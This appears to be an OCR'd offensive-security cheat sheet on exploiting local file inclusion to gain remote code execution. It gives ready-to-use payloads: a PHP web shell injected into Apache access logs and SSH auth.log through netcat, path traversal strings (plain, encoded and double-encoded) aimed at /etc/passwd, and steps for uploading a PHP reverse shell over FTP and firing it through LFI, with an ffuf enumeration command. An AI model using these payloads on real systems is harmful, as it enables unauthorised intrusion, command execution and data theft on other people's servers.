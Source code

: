 # LFI

If you locate an LFI, first try to get RCE.

## Log Poisoning

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Payload:

    <?php echo system($_GET['cmd']); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Alternate poisoning method: SSH Log Poisoning

### 1) Locate the log file

    /var/log/auth.log

### 2) Poison the auth.log file

Connect to SSH port via netcat

    nc -nv IP 22

Inject payload

    <?php echo system($_GET['cmd']); ?>

### 3) Run commands via your webshell now

    http://domain.local/lfi.php?file=/var/log/auth.log?cmd=whoami

## Path Traversal manual payloads

Simple traversal: start with 

    ../../../../etc/passwd 

Try variants like : 

    ..//..//..//etc/passwd 
    
or 

    ..\/..\/..\/etc/passwd.

Dot+slash permutations: 

    ..././../ 
    
or 

    ..%2f..%2f..%2fetc/passwd (URL encoded).

Try Double-encoding: 

URL-encode twice if the app decodes input more than once (example: %252e%252e%252f = %2e%2e%2f).

## LFI to RCE by calling your uploaded reverse shell

If you have write access on an FTP server, you can upload your reverse shell, then call it with LFI to catch it.

### 1) Upload your reverse shell in a writable FTP share

    put php-reverse-shell.php

### 2) Using LFI, find the FTP configuration file to detect the share that your shell is uploaded.

Enumerate with ffuf

    ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -t 100 -u http://192.168.158.14/secret_information/?lang=FUZZ -fs 146

Read FTP configuration file

    http://domain.local/vulnerable.php?lang=/etc/vsftpd.conf

You might detect something like

    anon_root=/var/ftp write_enable=YES (If anonymous access is allowed for example.)

### 3) Enjoy your shell

    http://domain.local/vulnerable.php?lang=/var/ftp/pub/php-reverse-shell.php
